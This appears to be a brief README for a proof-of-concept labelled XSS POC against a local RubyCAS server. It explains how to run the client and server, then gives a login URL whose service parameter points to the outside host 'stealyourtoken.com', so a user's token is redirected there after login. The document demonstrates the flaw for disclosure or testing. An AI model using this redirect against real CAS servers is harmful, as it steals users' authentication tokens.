 # XSS POC

Open the client folder in a terminal and run `bundle` than enter `rackup`.

In another terminal go to the server folder and run `bundle` than enter `bundle exec rubycas-server -c config.yml`.

Open `http://localhost:7777/login?service=http://stealyourtoken.com` in a browser and login with test/test. It will redirect you to `stealyourtoken.com` with your token.